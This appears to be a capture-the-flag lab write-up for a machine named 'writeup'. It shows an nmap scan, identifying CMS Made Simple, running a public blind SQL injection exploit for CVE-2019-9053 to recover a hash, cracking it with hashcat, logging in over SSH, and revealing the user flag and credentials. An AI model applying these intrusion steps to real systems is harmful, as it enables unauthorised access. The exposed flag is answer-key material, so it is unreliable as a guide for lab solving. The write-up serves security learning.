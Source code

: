 # Writeup

# Enumeration
---
### Nmap
#

Run a tcp syn nmap scan against the target, checking versions and running default scripts on all ports. 
```bash
# Nmap 7.94SVN scan initiated Wed Dec 11 06:50:13 2024 as: nmap -v -sS -sV -sC -T4 -p- -oA nmap-full-tcp-writeup 10.129.229.158
Nmap scan report for 10.129.229.158
Host is up (0.035s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE    VERSION
22/tcp open  ssh        OpenSSH 9.2p1 Debian 2+deb12u1 (protocol 2.0)
| ssh-hostkey: 
|   256 37:2e:14:68:ae:b9:c2:34:2b:6e:d9:92:bc:bf:bd:28 (ECDSA)
|_  256 93:ea:a8:40:42:c1:a8:33:85:b3:56:00:62:1c:a0:ab (ED25519)
80/tcp open  tcpwrapped
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Dec 11 06:52:00 2024 -- 1 IP address (1 host up) scanned in 107.09 seconds

```

### HTTP
#

Retro style website on port 80 talking about DDoS protection

![image](https://github.com/user-attachments/assets/c86b97da-7c2b-4045-93a4-6e59e4965a39)

Visiting key pages such as robots.txt gave the following directory in the Disallow list: /writeup/

![image](https://github.com/user-attachments/assets/8ac080cd-bab5-417d-b1ad-0dae52a77827)

The source code shows this is running [CMS Made Simple](https://www.cmsmadesimple.org/), an open source Content Management System, the copyright gives us a clue this version is from 2019. 

```html
<base href="http://10.129.229.158/writeup/" />
<meta name="Generator" content="CMS Made Simple - Copyright (C) 2004-2019. All rights reserved." />
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
```

Browsing Google for vulnerabilities in CMS made simple shows [CVE-2019-9053](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-9053) from 2019. This is a blind SQL vulnerability with a [public exploit](https://www.exploit-db.com/exploits/46635).  

Download the script and make the very basic alterations to get it working. Running the script finds the following information:

```bash
[+] Salt for password found: 1
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
```

The password looks like an MD5 hash which hashid all but confirms by returning MD2, MD5 and MD4 as the top 3 likely hash algorithms. 

```bash
hashid 62def4866937f08cc13bab43bb14e6f7

Analyzing '62def4866937f08cc13bab43bb14e6f7'
[+] MD2 
[+] MD5 
[+] MD4 
```

Running the hash through hachcat crack it and gives us the users password

```bash
hash
hashcat -a 0 -m 20 hash /usr/share/wordlists/rockyou.txt

<--snip-->

62def4866937f08cc13bab43bb14e6f7:5a599ef579066807:raykayjay9

<--snip-->
```

**Credentials**
Username : jkr
Password : raykayjay9

### SSH
#

This can be used to access SSH on port 22 identified on our port scan as user jkr and access the user flag. 

```bash
ssh jkr@10.129.229.158                 
The authenticity of host '10.129.229.158 (10.129.229.158)' can't be established.
ED25519 key fingerprint is SHA256:TRwEhcL3WcCSS2iITDucAKYtASZxNYORzfYzuJlPvN4.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.229.158' (ED25519) to the list of known hosts.
jkr@10.129.229.158's password: 
Linux writeup 6.1.0-13-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Oct 25 11:04:00 2023 from 10.10.14.23
jkr@writeup:~$ whoami
jkr
jkr@writeup:~$ cat user.txt
ec6a7fb1a03144dd6d6568b17dd85296
```

### User Flag
#

User Flag: ec6a7fb1a03144dd6d6568b17dd85296
